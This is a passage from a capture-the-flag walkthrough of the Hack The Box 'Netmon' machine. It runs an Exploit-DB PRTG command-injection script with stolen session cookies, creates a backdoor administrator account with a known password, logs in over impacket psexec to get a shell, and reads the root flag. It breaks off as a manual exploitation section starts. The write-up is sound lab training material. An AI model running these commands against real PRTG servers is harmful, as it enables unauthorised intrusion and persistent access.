 Then run the script with the above cookies.

```text
bash 46527.sh -u http://10.10.10.152 -c "_ga=GA1.4.2092334210.1582875922; _gid=GA1.4.597734317.1582875922; OCTOPUS1813713946=ezI0OTUwM0JELUYxMzYtNDE4RS05QTU5LUIyQUI2OUU0RjZDNn0%3D; _gat=1"
```

We get syntax errors.

```text
46527.sh: line 16: $'\r': command not found
46527.sh: line 17: syntax error near unexpected token `$'\r''
'6527.sh: line 17: `usage()
```

The exploit seems to have not copied properly from searchsploit. So instead, manually copy the exploit rom [exploitdb](https://www.exploit-db.com/exploits/46527) and save it in a file _exploit.sh_. Then rerun the exploit.

```text
bash exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.2092334210.1582875922; _gid=GA1.4.597734317.1582875922; OCTOPUS1813713946=ezI0OTUwM0JELUYxMzYtNDE4RS05QTU5LUIyQUI2OUU0RjZDNn0%3D; _gat=1"
```

It runs successfully and creates the user ‘_pentest_’ with the password ‘_P3nT3st!_’ on the system.

![](https://miro.medium.com/max/1118/1*A-tfKJCzWay2lFvIl8b0tw.png)

Let’s use psexec to access that user’s account.

```text
root@kali:~/Desktop/htb/netmon# locate psexec.py
/root/Desktop/tools/impacket/examples/psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/set/src/fasttrack/psexec.py
```

Run the following command.

```text
python3 /usr/share/doc/python3-impacket/examples/psexec.py pentest:'P3nT3st!'@10.10.10.152
```

We’re in!

![](https://miro.medium.com/max/791/1*25aM214iN2FhjE_uLylRVQ.png)

Grab the _root.txt_ flag.

![](https://miro.medium.com/max/760/1*PZlB0_-fb5jqyAjSzxvorg.png)

## Exploitation \#2: Manual Command Injection <a id="e4fe"></a>

While running the exploit script and immediately getting a shell is easy, we don’t really learn much about how the exploit works. Since this is a relatively simple exploit, let’s try and do this manually.
